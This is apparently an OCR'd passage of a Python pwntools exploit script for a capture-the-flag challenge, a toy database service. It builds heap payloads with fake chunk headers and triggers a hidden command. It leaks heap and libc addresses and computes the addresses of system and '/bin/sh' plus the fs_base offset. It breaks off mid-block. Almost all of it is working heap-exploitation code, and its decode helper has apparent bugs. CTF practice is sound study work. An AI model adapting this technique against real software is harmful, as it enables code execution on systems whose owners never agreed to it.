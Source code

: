 ```py
    def decode(output):
        out = b''
        for i in range(len(output)):
            c = output[i].to_bytes(1, 'little')
            if c != '\\':
                out += c
            else:
                out += p8(int(output[i+2:i+4], 16))
                i += 4
        return out

    sla(b'>', b'create table go1 (a int, b str)')
    sla(b'>', b'create table go2 (a int, b str)')

    pay = p64(0x0) + p64(0x801)
    pay += b'A'*0x120
    pay += p64(0) + p64(0x6f1)
    pay = pay.ljust(0x800, b'A')
    pay += p64(0x0) + p64(0x21)
    pay += b'A'*0x10
    pay += p64(0x0) + p64(0x21)
    pay += b'A'*0x10

    insert(b'go1', b'(a, b)', b"(%d, '%s')"%(1, pay))
    sla(b'>', b"hCtFLetsgO go1 a = 'BBBBBBBB'")
    select(b'go1', b'*')
    p.recvuntil(b': ')
    heap = int(p.recvuntil(b',')[:-1]) - 0x2ff0
    f_chunk = heap + 0x69e0
    target = heap + 0x6230
    log.info('[HEAP] %#x'%heap)
    log.info('[Fake] %#x'%f_chunk)
    log.info('[Target] %#x'%target)

    pay = b'\0'*0x850

    insert(b'go2', b'(a, b)', b"(%d, '%s')"%(1, pay))
    update(b'go2', b'b', b'%d'%(f_chunk))

    select(b'go1', b'*')
    p.recvuntil(b'b: ')
    leak = p.recvuntil(b'query')[:-5]
    leak = decode(leak)

    libc = u64(leak[0x10:0x18]) - 0x21b1d0
    fsbase = libc - 0x2840
    initial = libc + 0x228E70
    system = libc + 0x50d70
    lego = heap + 0xb50
    binsh = libc + 0x1d8678
    log.info('[GLIBC] %#x'%libc)
    log.info('[FSBASE] %#x'%fsbase)

    sla(b'>', b'create table go3 (a int, b str)')

    pay = b'C'*0x8e1
    insert(b'go3', b'(a, b)', b"(%d, '%s')"%(0, pay))
    update(b'go1', b'b', b'%d'%target)
    # pause()

    pay = b''
    pay += p64(0x8f0) + p64(fsbase + 0x30)
    try:
```